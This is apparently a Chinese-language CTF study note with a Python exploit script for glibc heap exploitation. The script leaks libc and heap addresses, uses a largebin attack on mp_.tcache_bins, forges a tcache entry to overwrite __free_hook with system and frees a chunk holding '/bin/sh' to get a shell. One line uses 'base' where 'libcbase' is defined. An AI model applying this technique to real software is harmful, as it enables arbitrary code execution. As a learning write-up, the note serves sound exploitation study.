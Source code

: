 mp\_结构体
=======

1. **不能使用tcache -&gt; 通过large*bin attack修改mp*.tcache\_bins -&gt; free相应chunk -&gt; 修改tcache的相应entries -&gt; malloc**
2. **注意这里修改的是mp\_.tcache*bins而不是mp*.tcache\_max\_bytes，修改这个值让tcache中的bin数变多，从而让largebin进入tcache**
3. **然后这个找偏移也不用纯手动算，直接telescope heapbase，然后看哪个是刚才被释放的chunk对应的count和位置**

[参考文章](https://giles-one.github.io/2021/09/08/tcache%E4%B9%8B%E6%94%BB%E5%87%BBmp%E5%8F%8A%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90/)

核心代码
----

```python
#泄露libcbase
add(1,0x500)
add(2,0x600)
add(3,0x700)
delete(1)
#让1进入largebin
delete(3)
add(4,0x700)
show(1)
out=u64(p.recv(6).ljust(8,b"\x00"))
libcbase=out-libc.sym['__malloc_hook']-1168-0x10
free_hook= base +libc.sym['__free_hook']
system=base+libc.sym['system']
#泄露heapbase
edit(1,b'a'*0x10)
show(1)
p.recvuntil(b'a'*0x10)
heapbase=u64(p.recv(6).ljust(8,b'\x00'))-0x290
#recover
edit(1,p64(out)*2)

#largebin attack
mp_offset=0x1e3280
mp_=libcbase+mp_offset
#target为mp_.tcache_bins
target=mp_+0x50
add(15,0x500)#take out 1
add(5,0x700)#chunk1
add(6,0x500)
add(7,0x6f0)#chunk2
add(8,0x500)
delete(5)
add(9,0x900)
show(5)
fd=u64(p.recv(6).ljust(8,b"\x00"))
edit(5,p64(fd)*2+p64(0)+p64(target-0x20))
delete(7)
add(10,0x900)

#让0x510大小的chunk的tcache counts不为0，满足tcache-&gt;counts[tc_idx] &gt; 0
add(2,0x500)
delete(2)
#要自己算好偏移，满足tcache-&gt;entries[tc_idx]为free_hook
#1的chunkhead为heapbase+0x290,mem为heapbase+0x300
edit(1,p64(0)*13+p64(free_hook))
add(3,0x500)
edit(3,p64(system))
#随便找一个没被用过的chunk写入就行
edit(6,b'/bin/sh\x00')
delete(6)
```